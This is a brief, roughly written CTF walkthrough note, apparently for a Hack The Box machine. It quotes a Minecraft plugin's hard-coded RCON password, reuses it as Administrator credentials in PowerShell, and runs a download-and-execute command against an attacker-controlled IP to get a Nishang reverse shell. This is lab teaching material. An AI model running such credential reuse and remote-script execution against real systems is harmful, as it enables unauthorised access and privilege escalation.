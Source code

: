 # powershell
- simple modified powershell can be used to gain access from one user to another using but it needs what is know as password

assume we have managed to get a shell and we have meet something like this maybe 
```
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);


This issue can be referenced from a craft machine from hack the box
```

- If we try to discete the code we can see that is trying to create a playercounter plugin with a onEnable() method being enabled, with the method we can see the the is a Rcon class which tried to establish remote connection with the above port,ip and password as "s67u84zKq8IXw". first it will try to connect and if the authentication fails it throws an exceptions error and it will stop loading the plugin

- now lets see how we can abuse this into getting a shell as an adminstrator, first we will need the following credential object based parameter

# Create string  that will store our password

we need to create an object based paramater that will carry our credentials lets begin with a string to hold the creds

```
PS C:\Users\svc_minecraft\server\plugins> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  

we can try to make a secure password conversion 
```

# After we have store our password lets create a new object named creds that will hold this creds with a respective administrator username
```
PS C:\Users\svc_minecraft\server\plugins> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  

```

# after that the last part will be using this object to get a shell
```
PS C:\Users\svc_minecraft\server\plugins> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.79:8080/a.ps1')" -Credential $cred
```
what we have done so above is that we  have initilize the process that will execute the download a powershell script from our machine and execute it and we get a reverse shell


N/B: This powershell script is from nishang but also you can get it from here



